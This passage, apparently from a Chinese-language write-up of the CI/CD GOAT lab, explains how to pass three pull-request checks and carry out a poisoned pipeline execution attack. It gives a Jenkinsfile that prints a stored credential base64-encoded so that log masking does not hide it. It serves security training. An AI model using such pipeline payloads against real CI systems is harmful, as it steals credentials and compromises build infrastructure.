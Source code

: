 可以发现本题可以进行 D-PPE 攻击，不过通过 Pr 修改 Jenkinsfile 进行 D-PPE 攻击时需要先通过 pipeline 的 Pr check，具体上是 3 个检查

- 增加的单词数和减少的单词数必须相同
- version 文件只有一行，并且符合 x.y.z 的格式
- version 文件内容发生了更改

修改 Jenkinsfile 后去别的文件里增加 Jenkinsfile 里减少的字符数相等的字符数再让 version 文件的小版本号 +1 即可

#### Exploit

```Jenkinsfile
pipeline {
    agent any
    stages {
        stage('pr_checks') {
            steps {
                withCredentials([usernamePassword(credentialsId: 'flag10', usernameVariable: 'flag10', passwordVariable: 'TOKEN')]) {
                    sh 'echo $TOKEN | base64'
                }
            }
        }
    }
}
```

### Grython

#### Risks

#### Analysis

ToDo 还没做

#### Exploit

## Reference

[CI/CD GOAT](https://github.com/cider-security-research/cicd-goat)
[OWASP Top 10 CI/CD Security Risks](https://owasp.org/www-project-top-10-ci-cd-security-risks/)
[What is CI/CD?](https://github.com/resources/articles/devops/ci-cd)
[OWASP CI/CD Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/CI_CD_Security_Cheat_Sheet.html)
[DevSecOps Outline](https://tryhackme.com/r/path/outline/devsecops)
[Jenkinsfile Syntax](https://www.jenkins.io/doc/book/pipeline/jenkinsfile/)
[PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/)
[sf4ult's wp](https://sf4ult.github.io/2024/06/27/post10/CICD-GOAT-Part-1/)(gif 图来源)
[Intro to pipeline automation](https://tryhackme.com/r/room/introtopipelineautomation)
[Dependency Management](https://tryhackme.com/r/room/dependencymanagement)
[S3 Bucket](https://registry.terraform.io/providers/hashicorp/aws/latest/docs/resources/s3_bucket)
[Checkov](https://github.com/bridgecrewio/checkov)
